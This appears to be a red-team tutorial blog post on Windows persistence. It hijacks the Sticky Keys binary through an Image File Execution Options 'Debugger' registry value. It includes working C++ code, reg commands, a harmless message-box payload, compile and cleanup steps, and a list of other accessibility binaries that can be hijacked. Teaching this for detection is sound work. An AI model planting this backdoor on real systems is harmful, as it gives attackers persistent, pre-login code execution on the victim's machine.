 ```yaml
---
title:  "Malware development: persistence - part 12. Accessibility Features. Simple C++ example."
date:   2022-09-30 03:00:00 +0300
header:
  teaser: "/assets/images/72/2022-09-30_17-48.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/72/2022-09-30_17-48.png){:class="img-responsive"}    

This post is the result of my own research into another admin-level malware persistence trick: via Accessibility Features.    

In the one of the [previous](/malware/2022/09/10/malware-pers-10.html) posts, I wrote about persistence via Image File Execution Options. In the one of the PoC examples, we just created a debugger to a victim process in this registry key:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`

then only requires the malicious application to be stored in `System32`.    

### practical example. sethc.exe

Today I just replace our victim process with `sethc.exe`. But what is `sethc.exe`? It appears it is responsible for sticky keys. Pressing the `Shift` key `5` times will enable the sticky keys:    

![pers](/assets/images/72/2022-09-30_17-26.png){:class="img-responsive"}    

Instead of the legitimate `sethc.exe`, "the rogue sethc.exe" , as usually for simplicity it is a meow messagebox, will be executed. The source code is pretty similar (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Meow-meow messagebox:    

```cpp
/*
hack.cpp
evil app for windows persistence
via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

### demo

Let's go to see everything in action. Check registry keys before:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```

![pers](/assets/images/72/2022-09-30_17-32.png){:class="img-responsive"}    

Then, compile our `pers.cpp`:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/72/2022-09-30_17-40.png){:class="img-responsive"}    

Run and check registry keys again:    

> **You need to have administrative privileges to replace the genuine Windows binary of the tool**

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /s
```

![pers](/assets/images/72/2022-09-30_17-44.png){:class="img-responsive"}    

Finally, pressing `Shift` key `5` times:     

![pers](/assets/images/72/2022-09-30_17-46.png){:class="img-responsive"}    

Note to the properties of the `hack.exe`:     

![pers](/assets/images/72/2022-09-30_17-47.png){:class="img-responsive"}    

![pers](/assets/images/72/2022-09-30_17-47_1.png){:class="img-responsive"}    

Perfect! =^..^=    

After end of experiments, for cleanup, run:    

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" -Force -Verbose
```

![pers](/assets/images/72/2022-10-01_03-39.png){:class="img-responsive"}    

### conclusion

The Windows Accessibility Features are a collection of utilities accessible via the Windows sign-in screen (like Sticky Keys). Some Accessibility features and their corresponding trigger choices and locations include:    

**1. Utility Manager**     
- `C:\Windows\System32\Utilman.exe`     
- Trigger: `Windows key + U`      

**2. On-Screen Keyboard**     
- `C:\Windows\System32\osk.exe`      
- Trigger: Click on On-screen keyboard button     

**3. Magnifier**   
- `C:\Windows\System32\Magnify.exe`     
- Trigger: `Windows Key + =`        

**4. Narrator**       
- `C:\Windows\System32\Narrator.exe`    
- Trigger: `Windows Key + Enter`    

**5. Display Switcher**     
- `C:\Windows\System32\DisplaySwitch.exe`    
- Trigger: `Windows Key + P`    

These Windows capabilities became well-known when the APT groups exploited them to backdoor target PCs. For example, [APT3](https://attack.mitre.org/groups/G0022/), [APT29](https://attack.mitre.org/groups/G0016/) and [APT41](https://attack.mitre.org/groups/G0096/) used sticky keys.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[MITRE ATT&CK. Event Triggered Execution: Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)    
[APT3](https://attack.mitre.org/groups/G0022/)      
[APT29](https://attack.mitre.org/groups/G0016/)     
[APT41](https://attack.mitre.org/groups/G0096/)     
[source code in github](https://github.com/cocomelonc/2022-09-30-malware-pers-12)      

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
